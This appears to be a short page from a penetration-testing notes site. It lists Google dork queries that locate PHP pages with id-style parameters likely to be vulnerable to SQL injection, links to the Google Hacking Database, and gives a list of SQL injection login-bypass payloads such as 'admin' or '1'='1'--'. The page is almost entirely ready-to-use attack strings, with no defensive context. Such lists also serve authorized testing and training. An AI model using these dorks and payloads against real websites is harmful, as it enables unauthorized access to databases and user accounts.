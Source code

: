```yaml
---
title : "Google dork"
pre : '<i class="fab fa-google"></i> '
description : "Technique for optimizing Google search queries."
date : 2020-03-14T19:40:33+01:00
# hidden : true
# draft : true
weight : 70
# tags : ['']
---
```


---

### SQL-injection

[Google Dorking SQLi](https://jarnobaselier.nl/google-dorks/)

```plain
inurl:.php?id=
inurl:index.php?id=
inurl:buy.php?category=
inurl:article.php?ID=
inurl:pageid=
inurl:games.php?id=
inurl:page.php?file=
```

### Google Hacking Database

[Google Hacking Database](https://www.exploit-db.com/google-hacking-database)

### SQL-injection queries

```plain
or 1=1
or 1=1--
or 1=1#
or 1=1/*
admin' --
admin' #
admin'/*
admin' or '1'='1
admin' or '1'='1'--
admin' or '1'='1'#
admin' or '1'='1'/*
admin'or 1=1 or ''='
admin' or 1=1
admin' or 1=1--
admin' or 1=1#
admin' or 1=1/*
admin') or ('1'='1
admin') or ('1'='1'--
```
